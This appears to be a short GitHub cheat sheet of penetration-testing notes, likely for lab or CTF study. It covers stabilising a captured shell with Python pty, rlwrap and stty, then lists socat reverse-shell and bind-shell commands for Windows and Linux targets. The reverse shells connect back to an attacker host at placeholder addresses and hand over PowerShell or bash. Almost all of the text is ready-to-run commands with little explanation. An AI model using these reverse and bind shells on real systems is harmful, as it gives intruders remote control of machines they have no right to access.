 # Shell Stabilizing Techniques

### Technique 1: Python

**Step 1: uses Python to spawn a better featured bash. Some versions may used python2 or python3, change if necessary**
```JavaScript
python -c 'import pty;pty.spawn("/bin/bash")'
````

**Step 2: Gives us access to commands such as clear**
```JavaScript
export TERM=xterm
```

**Step 3:**

- Background the shell with CTRL + Z

- In your own terminal, use the command below. This will turn off your own terminal and foregrounds the shell 
```JavaScript
stty raw -echo; fg
```


### Technique 2: rlwrap

**Install rlwrap**
```JavaScript
sudo apt install rlwrap
```

**Usage**
```JavaScript
rlwrap nc -lvnp <port>
```
**Use the third step in technique 1 as the final step for Technique 2**


### Technique 3: Socat

* This tecnique is limited to linux machines
* You must also transfer the socat static compiled binary up to the target machine



## Socat Reverse Shells

**Basic Syntax: The following is equivalent to nc -nlvp <port>**
```JavaScript
socat TCP-L:<port> -
```
  
On Windows we would use this command to connect back
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

This is the equivalent command for a Linux Target
```JavaScript
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
  
  
## Socat Bind Shells

On a Linux target
```JavaScript
socat TCP-L:<PORT> EXEC:"bash -li"
```
  
On a Windows target
```JavaScript
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
  
And from our attacking machine to connect to your listener...
```JavaScript
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


